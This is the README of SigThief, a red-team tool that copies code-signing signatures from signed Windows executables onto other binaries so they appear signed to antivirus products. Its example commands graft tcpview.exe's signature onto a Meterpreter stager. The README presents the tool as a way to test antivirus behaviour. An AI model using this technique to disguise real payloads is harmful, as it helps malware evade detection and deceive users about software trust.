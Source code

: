 # SigThief
Stealing Signatures and Making One Invalid Signature at a Time (Unless you read this:
https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

https://twitter.com/subTee/status/912769644473098240
![alt text](https://i.imgur.com/T05kwwn.png "https://twitter.com/subTee/status/912769644473098240")

## For security professionals only...

## What is this?

I've noticed during testing against Anti-Virus over the years that each is different and each prioritize PE signatures differently, whether the signature is valid or not. There are some Anti-Virus vendors that give priority to certain certificate authorities without checking that the signature is actually valid, and there are those that just check to see that the certTable is populated with some value. It's a mess.

So I'm releasing this tool to let you quickly do your testing and feel free to report it to vendors or not. 

In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file. 

Of course it's **not a valid signature** and that's the point!

I look forward to hearing about your results!


## How to use

### Usage
```
Usage: sigthief.py [options]

Options:
  -h, --help            show this help message and exit
  -i FILE, --file=FILE  input file
  -r, --rip             rip signature off inputfile
  -a, --add             add signautre to targetfile
  -o OUTPUTFILE, --output=OUTPUTFILE
                        output file
  -s SIGFILE, --sig=SIGFILE
                        binary signature from disk
  -t TARGETFILE, --target=TARGETFILE
                        file to append signature too
  -c, --checksig        file to check if signed; does not verify signature
  -T, --truncate        truncate signature (i.e. remove sig)
```

### Take a Signature from a binary and add it to another binary
```
$ ./sigthief.py -i tcpview.exe -t x86_meterpreter_stager.exe -o /tmp/msftesting_tcpview.exe 
Output file: /tmp/msftesting_tcpview.exe
Signature appended. 
FIN.
```

### Save Signature to disk for use later
```
$ ./sigthief.py -i tcpview.exe -r                                                        
Ripping signature to file!
Output file: tcpview.exe_sig
Signature ripped. 
FIN.

```

### Use the ripped signature
```
$ ./sigthief.py -s tcpview.exe_sig -t x86_meterpreter_stager.exe                               
Output file: x86_meterpreter_stager.exe_signed
Signature appended. 
FIN.

```

### Truncate (remove) signature
This has really interesting results actually, can help you find AVs that value Signatures over functionality of code. Unsign putty.exe ;)

```
$ ./sigthief.py -i tcpview.exe -T    
Inputfile is signed!
Output file: tcpview.exe_nosig
Overwriting certificate table pointer and truncating binary
Signature removed. 
FIN.
```

### Check if there is a signature (does not check validity)
```
$ ./sigthief.py -i tcpview.exe -c
Inputfile is signed!
```
